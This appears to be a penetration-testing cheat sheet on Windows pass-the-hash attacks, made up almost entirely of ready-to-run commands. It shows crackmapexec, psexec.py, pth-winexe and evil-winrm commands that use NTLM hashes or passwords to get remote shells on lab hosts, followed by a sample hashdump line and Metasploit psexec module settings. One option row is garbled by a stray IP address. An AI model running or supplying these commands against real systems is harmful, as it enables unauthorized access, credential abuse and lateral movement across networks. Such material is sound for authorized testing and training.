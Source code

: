 #### Pass The Hash

```bash
# Login as user only with hashdump
# From this hashdump
# admin2:1000:aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7:::

## CRACK MAP EXEC

crackmapexec smb 192.168.68.122-126 -u fcastle -d MARVEL.local -H <NTLM Hash> --local-auth # Check other machines for dual access with the same hash; --sam (dump SAM file)

crackmapexec smb 192.168.68.122-126 -u fcastle -d MARVEL.local -p <P@ssw0rd1>

## PSEXEC

psexec.py "frank castle":@192.168.68.122 -hashes aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846 # attempt to gain a shell

## Pth-Winexe

pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:ee0c207898a5bccc01f38115019ca2fb //10.11.1.24 cmd

##Evil-Winrm

evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

evil-winrm  -i 192.168.1.100 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846 -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

## Impacket-PSexec:

python3 /usr/share/impacket/impacket/examples/psexec.py "Administrator":@10.11.1.121 -hashes aad3b435b51404eeaad3b435b51404ee:57321e6a0eef2c45985c9fa49c5cd24f #upload/download files with shell access


msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target address range or CIDR identifier
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCR10.11.1.111TION                     no Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(windows/smb/psexec) > set rhosts 10.10.0.100
```